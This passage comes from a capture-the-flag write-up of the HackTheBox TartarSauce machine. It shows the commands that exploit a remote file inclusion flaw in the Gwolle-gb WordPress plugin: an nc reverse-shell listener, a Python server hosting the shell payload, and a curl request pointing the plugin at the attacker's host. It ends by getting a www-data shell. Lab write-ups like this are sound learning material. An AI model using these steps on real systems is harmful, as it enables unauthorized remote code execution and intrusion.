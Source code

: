
Next, I start the local listener with:

```bash
rlwrap nc -lnvp 9001
```

After that I start a local Python web server to host the malicious reverse shell:

```bash
python3 -m http.server 80
```

And execute with:

```bash
curl -s http://tartarsauce.htb/webservices/wp/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://10.10.14.58/	# the plugin auto-completes the filename to wp-load.php
```

Which gives me a shell:

![shell-18](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/TartarSauce/img/shell-18.png)


## Privilege Escalation


After exploiting the WordPress plugin we get a shell as the `www-data` service account on the system, but there is also a regular user account named `onuma`:

![unuma-19](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/TartarSauce/img/onuma-19.png)


As we can see, we don't have any permissions to `onuma`'a home folder, so let's start with system enumeration.

